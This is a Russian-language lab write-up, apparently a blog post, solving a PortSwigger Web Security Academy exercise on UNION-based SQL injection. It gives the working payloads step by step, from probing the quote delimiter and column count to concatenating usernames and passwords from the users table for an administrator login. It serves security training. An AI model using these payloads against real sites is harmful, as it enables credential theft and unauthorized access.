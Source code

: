 ```yaml
---
title: "SQL injection UNION attack retrieving multiple values in a single column"
date: 2025-06-19
tags: [sqli, writeup]
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)


## Scope

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Для решения лабораторной работы нужно выполнить атаку с помощью `SQL`-инъекции, войдя под пользователем `administrator`.


## Solution

Из условия лабы известно, что уязвимость находится в фильтре категорий. Поэтому возьму `URL` с фильтром `Accessories`:

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/filter?category=Accessories
```


Следующим моим шагом будет подбор обрамления. Предположу, что запрос выглядит так:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Тогда пейлоад должен иметь следующий вид:

```
Accessories' and false-- -
```

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/1.png){: height="200" .align-center}

Выдало пустую страницу без ошибок, значит в качестве обрамеления используется `'`.


Далее узнаю количество колонок в запросе с помощью `ORDER BY`:

```
Accessories' ORDER BY 10-- -Error
Accessories' ORDER BY 5-- - Error
Accessories' ORDER BY 3-- -Error
Accessories' ORDER BY 2-- - OK
```

Значит у нас используется 2 колонки в запросе. Попробую использовать `UNION` для отображения информации:

```
Accessories' UNION SELECT 1, 2-- -Error
Accessories' UNION SELECT 1, '2'-- -OK
```

Я получил вот такое отображение на страницу:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/2.png){: height="200" .align-center}

Значит отображается информация только из второй колонки, а мне нужно получить `login` и `password` из таблицы `table`. Это можно сделать с помощью двух запросов, либо же использовать конкатенацию строк с помощью `concat`. Мой пейлоад будет иметь следующий вид:

```
Accessories' UNION SELECT 1, concat('1', '2')-- -
```

А вот так это отображается на странице:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/3.png){: height="200" .align-center}

Теперь попробую получить нужные данные. Я добавил условие `0=1`. Теперь у меня отображается только вторая часть моего запроса, то есть логины и пароли:

```
Accessories' and 0=1 UNION SELECT NULL, concat(username, ':' ,password) FROM users-- -
```

Я получил следующий вывод:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/4.png){: height="200" .align-center}

Теперь зайду в аккаунт под пользователем `administrator`:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/5.png){: height="200" .align-center}

Победа)
